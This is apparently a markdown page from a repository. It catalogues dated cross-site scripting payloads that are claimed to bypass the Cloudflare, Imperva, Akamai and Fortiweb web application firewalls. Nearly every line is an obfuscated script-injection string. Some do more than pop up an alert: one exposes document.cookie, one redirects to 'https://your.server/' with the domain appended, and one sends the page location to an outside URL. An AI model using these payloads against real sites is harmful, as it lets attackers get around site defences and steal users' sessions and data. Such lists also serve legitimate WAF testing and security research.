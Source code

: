 # WAF Bypasses

The payloads are headed by the date of discovery of the bypass.

### Cloudflare

```csharp
//06-10-2021:
";(a=alert,b=1,a(b))

//17-08-2021:
"<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >"

//04-08-2021:
%27%09);%0d%0a%09%09[1].find(alert)//

//22-05-2021:
"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

//12-04-2021:
<svg/onload=location/**/='https://your.server/'+document.domain>

//25-02-2021:
<svg onx=() onload=(confirm)(1)>

//25-01-2021:
<svg/onrandom=random onload=confirm(1)>

//11-01-2021:
<svg onload=alert%26%230000000040"1")>

//23-12-2020:
<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert`1`;>
```

### Imperva

```javascript
//24-02-2021:
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click
```

### Akamai

```javascript
//28-09-2021:
"><a/\test="%26quot;x%26quot;"href='%01javascript:/*%b1*/;location.assign("//hackerone.com/stealthy?x="+location)'>Click

//13-12-2020:
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>

//28-10-2018:
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### Fortiweb

```javascript
//09-07-2019:
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```

